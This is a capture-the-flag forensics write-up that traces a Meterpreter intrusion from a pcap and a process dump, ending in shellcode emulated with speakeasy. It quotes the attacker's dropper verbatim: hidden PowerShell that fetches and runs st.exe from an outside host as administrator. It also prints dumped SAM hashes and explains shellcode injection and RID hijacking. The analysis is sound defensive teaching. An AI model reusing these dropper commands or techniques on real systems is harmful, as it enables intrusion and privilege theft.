



 <font size='10'>Shadow of the Undead</font>

29<sup>th</sup> November 2023 / Document No. D23.102.XX

Prepared By: c4n0pus

Challenge Author(s): c4n0pus

Difficulty: <font color=orange>Hard</font>

Classification: Official


# Synopsis

A hard forensic challenge featuring Meterpreter session decryption and a custom shellcode emulation. Players will need to extract the dropper from the capture file and identify the traffic as a Meterpreter session. After they parse and decrypt said traffic, they will need to identify the shellcode injection point and extract the shellcode. Finally, they will need to emulate the shellcode to understand its behavior. 

**Note:** Along the way, depending on the tools/methods used, players may need to implement additional functionality in order to achieve (full) WinAPI emulation and/or Meterpreter session parsing.

## Description

As the battle of Hackster University ranges on, as head of Defense, you are notified that a Task Force group is on their way in order to properly remove and destroy the Biohazard waste from the premises. You should be receiving a briefing later today about how to better prepare for the extraction and you have already set up a Guest account for them on the workstation. However, after some time you see some strange activity in the network from the task force group; that has yet to arrive! You then decide to investigate...

## Flag: `HTB{cust0m_S3rum-XY_sh3llc0de_4g41nst_H4ckst3r_Un1v3rs1ty!}`

## Release

[forensics_shadow_of_the_undead.zip](./release/forensics_shadow_of_the_undead.zip) `SHA256: 00dce160a2cc918941466a5c827106dea5f8f969de0e35ea0eba9d8e5ae9adce`

## Skills Required

* Capture file analysis/parsing
* Meterpreter
* Windows Shellcoding basics

## Skills Learned

* Meterpreter TLV parsing
* Meterpreter inner workings/commands
* Meterpreter key extraction from proc dump
* Windows custom shellcode emulation
* Custom WinAPI hooks for [speakeasy](https://github.com/mandiant/speakeasy)

# Enumeration

We are given a zip file containing a `capture.pcap` file and a `st.dmp` file that we suspect is a process dump. Since we don't really know anything about the process dump, we should focus on the capture file first:



We first see that a `runner.js` file is being downloaded and then 2 `GET` requests are made for `st.exe` and `biohazard_containment_update.pdf`

From here we suspect that `st.dmp` could be the process dump of the `st.exe` process!

In any case, let's export `runner.js` and take a look at it:


```js
var sh = new ActiveXObject("WScript.Shell");
sh.Run("powershell.exe -W Hidden -nop -ep bypass -NoExit -E [REDACTED]");
sh.Run("powershell.exe -W Hidden -nop -ep bypass -NoExit -E [REDACTED]");

var js_file_path = WScript.ScriptFullName;
sh.Run("cmd.exe /c del " + js_file_path);
```

The first two calls to `WScript.Shell`'s `Run` method create a Powershell process and pass an encoded command using the `-E` parameter.

Finally, the script exits before it deletes itself. Now let's decode the first Powershell command:

```ps
$name = "biohazard_containment_update.pdf"
$path = "$env:TEMP\\$name"
Invoke-WebRequest -URI "http://storage.microsoftcloudservices.com:8817/$name" -OutFile$path
Start-Process $path
```

It simply downloads a PDF to the `TEMP` location and then executes it. We can take a look at the resulting PDF:



It seems to be the protocol briefing the description mentions, which would serve as a decoy so the user "sees" the result they were expecting

Now the second command should be the one we are interested in:

```ps
iwr -uri http://storage.microsoftcloudservices.com:8817/st.exe -outfile $env:TEMP\st.exe
Start-Process $env:TEMP\st.exe -Verb RunAs
```

As expected, this is responsible for downloading `st.exe` and executing it as Administrator.

We can upload the executable to an online site to scan it for us:



A lot of detections mention that this is a Meterpreter payload, part of the [Metasploit Framework](https://github.com/rapid7/metasploit-framework)


At this point, we know that:
  * There is a Meterpreter session on the workstation
    * initiated by `st.exe`
    * we have the process dump
  * The TCP data that follows must be the session's traffic


Before trying to parse the data, let's do some digging around in order to better understand the Packet structure and communication of the session

## The Meterpreter Session

At some point in 2017, the `rapid7` team decided to refactor the packets for the `meterpreter_reverse_tcp` family and introduce key negotiation along with a `TLV` (Type, Length, Value) packet implementation:

[GitHub PR](https://github.com/rapid7/metasploit-framework/pull/8625)

Since then, each packet has the following format:

```txt
Values: [XOR KEY][session guid][encryption flags][packet length][packet type][ .... TLV packets go here .... ]
Size:   [   4   ][    16      ][      4       ][       4     ][     4     ][ ....          N          .... ]
```

Also from the PR, we can get the steps of how to process each packet:

```txt
1. The full 32 byte header should be downloaded first.
2. The first 4 bytes should be extracted, and then used to de-XOR the remaining 28 bytes as a single block.
3. The session GUID can (or will, in future) be used to identify the session handler. This isn't happening yet as we don't have the wiring in place, it just assumes the current session handler is going to handle it.
4. The encryption flags can be referenced to determine if the packet is encrypted and how.
5. The length value indicates how many more bytes should be read from the data stream associated with the transport.
6. Once fully downloaded, the entire packet should be XOR'd starting from byte 5 (again, to avoid packet alignment issues).
7. If encrypted, the IV should be extracted from the first 16 bytes, and then the decryption process should happen, converting the payload back into a set of TLV values.
8. The TLV "packet" can now be passed off for handling by the session handler with all the values decrypted/decoded/etc.
```

But I digress, what is a TLV packet, and why do we care?

From the [Wikipedia Page](https://en.wikipedia.org/wiki/Type%E2%80%93length%E2%80%93value):

```txt
Within communication protocols, 
TLV (type-length-value or tag-length-value) is an encoding scheme used for informational elements. 

A TLV-encoded data stream contains code related to the record type, 
the record value's length, and finally the value itself.
```

Unlike `TCP` packets, `TLVs` can span more than 1 `TCP` packet and vice-versa, a single `TCP` packet could contain more than just a single `TLV` packet.

So if we want to parse the session manually, we will need to concatenate the data section of each `TCP` packet and then iterate over them manually with offsets and indices. 

`0xdf` did an [amazing job](https://0xdf.gitlab.io/2023/02/04/htb-response.html#meterpreter-traffic-decryption) explaining how one would go about parsing the data manually, and I highly recommend you watch his video before following this writeup.

Instead of creating a script catered to our needs, we will be using a project called [REW-sploit](https://github.com/REW-sploit/REW-sploit) that can parse the `TLVs` and decrypt them as well.

**Note:** `REW-sploit` assumes that there is no encrypted key exchange going on and will try to extract the key from the respective type: [meterpreter_reverse_tcp.py#L164](https://github.com/REW-sploit/REW-sploit/blob/main/modules/meterpreter_reverse_tcp.py#L164).

Since there is `EKE` (Encrypted Key Exchange) taking place, the packet containing the key has a type of `TLV_TYPE_ENC_SYM_KEY` and a value of `RSA_public_encrypt(AES256)`.

If we had the Private Key, then we could decrypt it and recover the symmetric key, however, that's impossible because that would require a compromised C2 host!

## Enter Process Dump

If you recall from earlier, we are given the process dump of the `st.exe` which generates and then encrypts the symmetric key with the attacker's Public RSA key. That means it is possible to recover the AES key by analyzing the memory! In his writeup, `0xdf` points to a tool called [Bulk Extractor](https://github.com/simsong/bulk_extractor) that can be used to extract data from images. 

We can use it as such, in order to recover the AES key:

```sh
$ bulk_extractor st.dmp -o st_out
$ cat st_out/aes_keys.txt

# BANNER FILE NOT PROVIDED (-b option)
# BULK_EXTRACTOR-Version: 2.0.5
# Feature-Recorder: aes_keys
# Filename: st.dmp
# Feature-File-Version: 1.1
1708211	06 57 1f fb 8b 42 b0 4b 30 c6 ba 58 29 f0 66 81 c2 89 bd bd 88 21 59 e3 d2 d3 19 7b dd 69 da 9e	AES256
```

Now that we have the symmetric key, we can hardcode it into `REW-sploit` to be used!

**Note:** This assumes that the victim does not migrate to another process and/or does not re-negotiate keys again!

## Analyzing Meterpreter TLVs

We then run it just like the examples specifying a C2 host, a capture file and a Port, redirecting the output to a file to make it easier to manage:

`(REW-sploit)<< meterpreter_reverse_tcp -f capture.pcap -i 10.1.1.1 -p 21589 > out`

Let's take a look at the results:

```txt
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5WiCMs3MSasXneoujQaV
46x4Exg4cFesyN8RDEVSUrb6HPNEQCn5ixjwxUDwewY5MMU5RkvdmljfnIqwS2dF
SsM5yY79+uHiUAzohnqRoBdI65aXtU1ud7nTzhrjVgnhITHyLzs/OFKmzyd/FDl5
AyLjU85EsWIv/DZRkG9s3HfwXKxW/cDAb1AaftJUBc9fTjUEztHnRGakzPL2BAjh
gQ1NeXI0v9QfvC3miF2aMzb8YhkBnxp8XWy4m0VnltU625DogYSPNuET3Nl+E8V+
jO/Zop4Ydc46lYGdp7nksf55H33x7y7DlpBjhJNajQ1mtiexvj9v7GyyiY5FyKV6
OQIDAQAB
-----END PUBLIC KEY-----

[+] Meterpreter session identified

[+] Meterpreter AES key found: 06571ffb8b42b04b30c6ba5829f06681c289bdbd882159e3d2d3197bdd69da9e
```

The first two packets deal with the key negotiation, grab the public key, generate an AES256 key, encrypt it, etc. The identified key is the one we hardcoded into the codebase. 

Let's move on:

```text
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_CORE_SET_SESSION_GUID (0x15)

Type:   TLV_TYPE_REQUEST_ID (0x10002)
Length: 41
Value:  b'48241045545581274823757719101122\x00'

Type:   TLV_TYPE_SESSION_GUID (0x401CE)
Length: 24
Value:  b'\xcc\x04\x91\xabdSE\xa2\x94\xfdV[\xcf\x82\xdbC'
```

The next couple of packets are for setting up the `GUID` for the session which up until this moment was zero, and doing some enumeration. This is all standard staging procedure, no user action yet!

After some packets, we find a type of `TLV_TYPE_COMMAND_ID` and a value of `COMMAND_ID_CORE_LOADLIB`

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_CORE_LOADLIB (0xC)

Type:   TLV_TYPE_REQUEST_ID (0x10002)
Length: 41
Value:  b'49110117875252449609241309211144\x00'

Type:   TLV_TYPE_UNK (0x2004001A)
Length: 185345
Value:  b'\x00\x06N\x00x\xda\xec\xbdy|[...REDACTED...]

Type:   TLV_TYPE_LIBRARY_PATH (0x10190)
Length: 26
Value:  b'ext370972.x64.dll\x00'
```

This is still Meterpreter stuff, moving along.

We find an interesting request/reply pair:
```text
>>>>>>>>>>>>>>> REQUEST
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_FS_GETWD (0x3F0)

Type:   TLV_TYPE_REQUEST_ID (0x10002)
Length: 41
Value:  b'14289522188510717803282106335608\x00'


>>>>>>>>>>>>>>> REPLY

Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_FS_GETWD (0x3F0)

Type:   TLV_TYPE_REQUEST_ID (0x10002)
Length: 41
Value:  b'14289522188510717803282106335608\x00'

Type:   TLV_TYPE_UNK (0x104B0)
Length: 16
Value:  b'C:\\Temp\x00'
```

The C2 server sends a request with a type of `TLV_TYPE_COMMAND_ID` and the value (command) to be executed is `COMMAND_ID_STDAPI_FS_GETWD` which returns the working directory of the process: `b'C:\\Temp\x00'`.

Another simple pair is:

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_CONFIG_GETUID (0x41F)

Type:   TLV_TYPE_UNK (0x10412)
Length: 34
Value:  b'WS01-HACKSTER\\HSTER-ADMIN\x00'
```

Which returns the current user, it looks like we are getting into user commands territory!

A `sysinfo` command is executed which returns some information about the system:

```txt
WS01-HACKSTER
Windows 10 (10.0 Build 19044)
x64
en_US
WORKGROUP
```

Followed by an `ifconfig` - `COMMAND_ID_STDAPI_NET_CONFIG_GET_INTERFACES`. It returns the network adapters but to find more information such as IP/MAC addresses we will need to check the source code on how to reverse the data.
In any case, this is just information gathering so we can skip this.

Moving further down the output, we find `COMMAND_ID_PRIV_ELEVATE_GETSYSTEM` which is consistent with the `getsystem` command, which grants you `SYSTEM` privileges. An executable is sent over judging by the `MZ` header, and this is what will allow us to get `SYSTEM` privileges. Keep in mind that we ran `st.exe` as admin!


On the next `getuid` command we confirm the malicious actor has indeed gained `SYSTEM` privileges:

```txt
>>>>>>>>>>>>>>>

Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_CONFIG_GETUID (0x41F)

Type:   TLV_TYPE_UNK (0x10412)
Length: 28
Value:  b'NT AUTHORITY\\SYSTEM\x00'

Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_CONFIG_GETPRIVS (0x41D)

Type:   TLV_TYPE_UNK (0x10278)
Length: 25
Value:  b'SeDebugPrivilege\x00'

[...REDACTED...]
```

Now that the session is running under `NT AUTHORITY\SYSTEM` the actor proceeds to dump all user hashes:

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_PRIV_PASSWD_GET_SAM_HASHES (0x7D7)

Type:   TLV_TYPE_REQUEST_ID (0x10002)
Length: 41
Value:  b'11832503645685158485056553046951\x00'

Type:   TLV_TYPE_UNK (0x14E21)
Length: 536
Value:  b'Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nBIOHAZARD_MGMT_GUEST:1031:aad3b435b51404eeaad3b435b51404ee:04a26a1e610345bb8073bf7052358b38:::\nDefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nGuest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::\nHSTER-ADMIN:1001:aad3b435b51404eeaad3b435b51404ee:09363766d00139291d0b5b87efdc33df:::\nWDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0667b33066b21b6e0cc16cdca6c00de2:::\n\x00'
```

## Shellcode injection

Something really interesting happens after that, we see `notepad.exe` is spawning:

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_PROCESS_EXECUTE (0x42D)

ype:   TLV_TYPE_UNK (0x108FE)
Length: 40
Value:  b'C:\\Windows\\System32\\notepad.exe\x00'


Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_PROCESS_EXECUTE (0x42D)
```

And then some process enumeration is happening.

After which, a memory allocation takes place:

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_PROCESS_MEMORY_ALLOCATE (0x436)
```

Then the permissions of the (newly created) memory segments are changed:

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_PROCESS_MEMORY_PROTECT (0x439)
```

We write something to that memory segment:

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_PROCESS_MEMORY_WRITE (0x43D)


Type:   TLV_TYPE_UNK (0x407D4)
Length: 4616
Value:  b'VH\x8b\xf4H\x83\xe4\xf0H\x83\xec[...REDACTED...]
```

And finally, we create a new thread

```txt
Type:   TLV_TYPE_COMMAND_ID (0x20001)
Length: 12
Value:  COMMAND_ID_STDAPI_SYS_PROCESS_THREAD_CREATE (0x43F)
```

This is textbook shellcode injection, where we allocate a memory segment, change the permissions to `RWX` and finally, create a new thread inside the remote process (in our case `notepad.exe`) that runs our shellcode for us.

In fact, all the above happen from the `post/windows/manage/shellcode_inject` module of Metasploit:
  * Spawn `notepad.exe`: [shellcode_inject.rb#L88](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/shellcode_inject.rb#L88)
  * Allocate memory: [reflective_dll_injection.rb#L48](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/post/windows/reflective_dll_injection.rb#L48)
  * Change permissions: [reflective_dll_injection.rb#L49](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/post/windows/reflective_dll_injection.rb#L49)
  * Write memory: [reflective_dll_injection.rb#L50](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/post/windows/reflective_dll_injection.rb#L50)
  * Thread creation: [shellcode_inject.rb#L141](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/shellcode_inject.rb#L141)

From here we need to dump the shellcode and make our way from there. We could just edit the code and when the type matches `0x407D4` which is the type that signifies the shellcode data write the output to a file.

## Windows Shellcode 101

Shellcodes in Windows are a lot more different than classic Linux shellcodes. This won't be a deep dive into windows shellcoding, but the general caveat custom shellcode devs face, is that unlike Linux, where syscalls are always known and available, windows kernel functions follow a much more elaborate call path. 

This excellent [blog post](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html) serves as one of the best primers for windows shellcoding. 

Quoting the blog above:

```
Instead they use functions from the Windows API (WinAPI), which internally call functions from the Native API (NtAPI), which in turn use system calls. The Native API functions are undocumented, implemented in ntdll.dll and also, as can be seen from the picture above, the lowest level of abstraction for User mode code.

The documented functions from the Windows API are stored in kernel32.dll, advapi32.dll, gdi32.dll and others. The base services (like working with file systems, processes, devices, etc.) are provided by kernel32.dll.
```

So we somehow need to find a way to emulate or somehow understand which of the above `.dll` files are loaded and then which functions are used!

## Speaking Easy

Thankfully there exists [speakeasy](https://github.com/mandiant/speakeasy), an amazing tool based on the [unicorn](https://github.com/unicorn-engine/unicorn) emulation engine that emulates `WinAPI` calls using a hook-style system.

Let's run our shellcode using this tool and using the `-o` parameter to output a report

```sh
$ speakeasy -t export.bin -r -a x64 -o rep.json

* exec: shellcode
0x1864: 'kernel32.LoadLibraryA("user32.dll")' -> 0x77d10000
0x187b: 'kernel32.LoadLibraryA("advapi32.dll")' -> 0x78000000
0x1892: 'kernel32.LoadLibraryA("netapi32.dll")' -> 0x54400000
0x18d9: 'kernel32.GetProcAddress(0x77000000, "WinExec")' -> 0xfeee0000
0x18f8: 'kernel32.GetProcAddress(0x77000000, "lstrcatA")' -> 0xfeee0001
0x1937: 'kernel32.GetProcAddress(0x78000000, "RegGetValueA")' -> 0xfeee0002
0x1956: 'kernel32.GetProcAddress(0x78000000, "RegSetKeyValueA")' -> 0xfeee0003
0x1975: 'kernel32.GetProcAddress(0x78000000, "RegOpenKeyExA")' -> 0xfeee0004
0x19bf: 'kernel32.GetProcAddress(0x77d10000, "wsprintfA")' -> 0xfeee0005
0x19f3: 'kernel32.GetProcAddress(0x54400000, "NetUserSetInfo")' -> 0xfeee0006
0x1a5d: 'advapi32.RegOpenKeyExA(0xffffffff80000002, "SOFTWARE\\VMware, Inc.\\VMware Tools", 0x0, 0x1, 0x1203d40)' -> 0x3
0x1ab3: 'advapi32.RegGetValueA(0xffffffff80000002, "SAM\\SAM\\Domains\\Account\\Users\\Names\\biohazard_mgmt_guest", 0x0, 0xffff, 0x1203c98, 0x0, 0x0)' -> 0x0
0x1b0b: 'user32.wsprintfA(0x1203e20, 0x1af3, 0x1203b70, 0x0, "SAM\\SAM\\Domains\\Account\\Users\\00000000", "%s%08x")' -> 0x26
0x1b4f: 'advapi32.RegGetValueA(0xffffffff80000002, "SAM\\SAM\\Domains\\Account\\Users\\00000000", "F", 0xffff, "REG_NONE", 0x1203da0, 0x1203c08)' -> 0x0
0xfeee0003: shellcode: Caught error: unsupported_api
Invalid memory read (UC_ERR_READ_UNMAPPED)
Unsupported API: advapi32.RegSetKeyValueA (ret: 0x1bbf)
* Finished emulating
* Saving emulation report to resp.json
```

The emulation stops with an `Unsupported API` error code. Nevertheless, let's analyze it:

The shellcode loads the following libraries:
  * `user32.dll`
  * `advapi32.dll` 
  * `netapi32.dll`
  * `kernel32.dll` - This can be inferred as both `LoadLibraryA` and `GetProcAddress` exist in `kernel32.dll`

And using their base address the following functions are brought in-scope:
  * `WinExec`
  * `lstrcatA`
  * `RegGetValueA`
  * `RegSetKeyValueA`
  * `RegOpenKeyExA`
  * `wsprintfA`
  * `NetUserSetInfo`

Following the function declaration we see the execution taking place:

A registry key is opened and based on Microsoft's [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa), `RegOpenKeyExA()`'s first argument could be an already open key or `HKEY_LOCAL_MACHINE` (among others).

This is probably an anti-debugging check since this refers to a Hypervisor key

After the check, a value is read from `HKEY_LOCAL_MACHINE\\SAM\\SAM\\Domains\\Account\\Users\\Names\\biohazard_mgmt_guest` and since the name of the value is `NULL` this will return the `(default)` value which in this key is the `RID` of the specified used. In our case, `biohazard_mgmt_guest`, the guest account that was set up for the task force!

A call to `wsprintfA()` (the `sprintf()` analog) is then taking place with a format string specifier `%s%08` and a string argument of `HKEY_LOCAL_MACHINE\\SAM\\SAM\\Domains\\Account\\Users\\00000000`. We suspect that this sets up the user's key variable for an `RID Hijack` [attack](https://www.ired.team/offensive-security/persistence/rid-hijacking). Basically, by changing the `RID` of the user, we can make them part of the `Default Administrators` without changing group membership! 

As suspected, the next function accesses `HKEY_LOCAL_MACHINE\\SAM\\SAM\\Domains\\Account\\Users\\{RID}\\F` and writes the output to a variable specified in the arguments (`0x1203da0`)

The next function call is `RegSetKeyValueA()` and this is where the emulator fails...


# Solution

After reading [speakeasy](https://github.com/mandiant/speakeasy#adding-api-handlers)'s documentation, we learn that is quite easy to add our own `API Handlers` to add (partial) support. 

After cloning the repo we need to edit the `advapi32.py` file and add our own hook for the `RegSetKeyValueA` function:

```py
@apihook("RegSetKeyValueA", argc=6, conv=_arch.CALL_CONV_STDCALL)
    def RegSetKeyValueA(self, emu, argv, ctx={}):
        """
        LSTATUS RegSetKeyValueA(
            HKEY    hKey,
            LPCSTR  lpSubKey,
            LPCSTR  lpValueName,
            DWORD   dwType,
            LPCVOID lpData,
            DWORD   cbData
        );
        """
        rv = windefs.ERROR_SUCCESS
        return rv
```

Since we know that this will overwrite the new `F` value with the modified one, we don't actually need to implement any emulated registry write, in order to pass. Just return `ERROR_SUCCESS` so that the emulator continues!

Running it again, we find that it crashed again in another part:

```sh
[...REDACTED...]
0x1bbf: 'advapi32.RegSetKeyValueA(0xffffffff80000002, 0x1203e20, 0x1203b60, 0xffff, 0x1203da0, 0x50)' -> 0x0
0xfeee0006: shellcode: Caught error: unsupported_api
Invalid memory read (UC_ERR_READ_UNMAPPED)
Unsupported API: NETAPI32.NetUserSetInfo (ret: 0x1c2b)
* Finished emulating
* Saving emulation report to rep.json
```

The registry write passes successfully but now it fails at the `NetUserSetInfo()` function. Again using the same logic we can add a hook for the `NetUserSetInfo()` function:

```py
@apihook("NetUserSetInfo", argc=5)
    def NetUserSetInfo(self, emu, argv, ctx={}):
        """
        NET_API_STATUS NET_API_FUNCTION NetUserSetInfo(
          LPCWSTR servername,
          LPCWSTR username,
          DWORD   level,
          LPBYTE  buf,
          LPDWORD parm_err
        );
        """
        return netapi32defs.NERR_Success
```

Let's rerun:
```sh
0x1ab3: 'advapi32.RegGetValueA(0xffffffff80000002, "SAM\\SAM\\Domains\\Account\\Users\\Names\\biohazard_mgmt_guest", 0x0, 0xffff, 0x1203c98, 0x0, 0x0)' -> 0x0
0x1b0b: 'user32.wsprintfA(0x1203e20, 0x1af3, 0x1203b70, 0x0, "SAM\\SAM\\Domains\\Account\\Users\\00000000", "%s%08x")' -> 0x26
0x1b4f: 'advapi32.RegGetValueA(0xffffffff80000002, "SAM\\SAM\\Domains\\Account\\Users\\00000000", "F", 0xffff, "REG_NONE", 0x1203da0, 0x1203c08)' -> 0x0
0x1bbf: 'advapi32.RegSetKeyValueA(0xffffffff80000002, 0x1203e20, 0x1203b60, 0xffff, 0x1203da0, 0x50)' -> 0x0
0x1c2b: 'NETAPI32.NetUserSetInfo(0x0, 0x1203df0, 0x3eb, 0x1203c80, 0x0)' -> 0x0
* Finished emulating
* Saving emulation report to rep.json
```

Okay, now the emulation finishes correctly but no flag in sight... Let's take a better look at the `NetUserSetInfo()` function!
Consulting the [docs](https://learn.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netusersetinfo) we find the types and meaning of the arguments passed in.

We are interested in the `level` argument and the `buf` argument. Depending on the `level`'s value, the data `buf` points to is interpreted differently! 

In our case `level` has a value of `0x3eb` (1003) and from the table, we find that a `level` value of `1003` signifies that the `buf` variable points to a `USER_INFO_1003` [struct](https://learn.microsoft.com/en-us/windows/win32/api/lmaccess/ns-lmaccess-user_info_1003).

The aforementioned struct contains a member variable that is a pointer to a **unicode** string that will be used as the new user password (user specified as a string pointed by the second argument)

This is a way to change the user's password without using `WinExec` (which can be detected using various tools).

The fourth argument of the `NetUserSetInfo()` function is a double pointer to a unicode string so for us to read the password we have to play around with the emulated address space. We modify our hook function as so:

```py
servername, username, level, buf, parm_err = argv
addr = self.mem_read(buf, 4)
addr = struct.unpack("<L", addr)[0]
print(f"Password: {self.read_mem_string(addr, 2)}")
```

1. We expand the `argv` array to the arguments
2. we dereference the `buf` pointer using `self.mem_read()` to read 4 bytes.
3. We then convert the bytes to an integer and use it to read a **string** from the resulting address

**Note:** Since this is a unicode string, each character uses 2 bytes instead of 1, this is the character width used as the second argument in `self.read_mem_string(addr, 2)`

When we run again we expect the password to be printed:

```sh
0x1bbf: 'advapi32.RegSetKeyValueA(0xffffffff80000002, 0x1203e20, 0x1203b60, 0xffff, 0x1203da0, 0x50)' -> 0x0
Password: HTB{REDACTED}
0x1c2b: 'NETAPI32.NetUserSetInfo(0x0, 0x1203df0, 0x3eb, 0x1203c80, 0x0)' -> 0x0
* Finished emulating
* Saving emulation report to rep.json
```

# Other solution Path

We suspect that the flag is encrypted so that it won't be visible, however since the flag is decrypted before being used in `NetUserSetInfo()` we don't actually need to implement this hook. The flag is present in the emulated address space!

If we read the `report.json` we can find the flag under the unicode strings. Keep in mind that the first hook needs to be implemented as decryption happens right before `NetUserSetInfo()`!

```js
$ cat rep.json | jq

{
  "path": "exported.bin",
  "sha256": "2fad814e5cc14bb70328c617c6725fcf3da98f9ab7cd01443c96253fd51a6db6",
  "size": 4608,
  "arch": "x64",
  "mem_tag": "emu.shellcode.2fad814e5cc14bb70328c617c6725fcf3da98f9ab7cd01443c96253fd51a6db6",
  "emu_version": "1.5.11",
  "os_run": "windows.6_1",
  "report_version": "1.1.0",
  "emulation_total_runtime": 0.473,
  "timestamp": 1701291336,
  "strings": {
    "in_memory": {
      "unicode": [
        "kernel32.dll",
        "BIOHAZARD_MGMT_GUEST",

        "HTB{REDACTED}",
        
        "(QNDA",
        "FOI|"
      ]
    }
  }
}
```
